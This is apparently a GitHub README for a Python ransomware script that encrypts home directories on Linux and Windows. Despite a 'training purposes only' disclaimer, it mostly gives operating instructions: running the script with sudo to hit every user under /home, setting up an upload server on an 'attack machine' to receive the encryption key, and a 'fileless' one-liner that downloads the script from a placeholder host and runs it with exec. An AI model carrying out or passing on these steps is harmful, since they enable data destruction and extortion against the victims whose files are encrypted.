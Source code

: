 # malRansom
Python code that encrypts files in a user's home or users' /home directory.
# Description
First, I would like to say this is for training purposes only and not to be used in any nefarious way. Definitely, 3rawm05nar.py is not a real 
sophisticated piece of code. The encryption/decryption files have only been tested on Redhat 9, Ubuntu 22.04, and Windows 11. Windows takes longer to run the full script and requires that python3 is installed to run. On Redhat, 3rawm05nar.py may have to be ran twice due to missing packages.
# Requirements
There are different ways to conjure up an upload server, but recommend installing the module "uploadserver" for python3. It is easy to use and allows you to
upload your key to your attack machine. It highly recommended that you are able to upload files to python3 server before running script.
# Remember
IMPORTANT: Read the comments at the top of the python script before use. Update the Url for the uploading of the key and include port too. Just an idea... the key is generated at execution, but could be downloaded and passed as a string to eliminate the liability of the uploadserver. The code would have to be refactored at that point and a key would have to be generated prior. Windows will only affect the current user's home directory. Linux is ran with sudo and affects all users in /home.
# Windows
python3 .\3raw05nar.py
# Linux
sudo python3 3raw05nar.py
# Python Upload Server
pip3 install uploadserver
Your machine - Example: python3 -m uploadserver 44444
# Fileless Approach
python3 -c ("""from urllib.request import urlopen;url = 'http://< YOUR IP >/< DIRECTORY >/3rawm05nar.py';outtie = urlopen(url).read();getit = outtie.decode('utf-8');exec(outtie)""")
# Additional Resources
NetworkChuck

https://www.youtube.com/watch?v=UtMMjXOlRQc&t=609s

HTTP/HTTPS python upload server

https://pypi.org/project/uploadserver/

Python simplehttpserver

https://stackoverflow.com/questions/39788591/python-simplehttpserver-to-receive-files
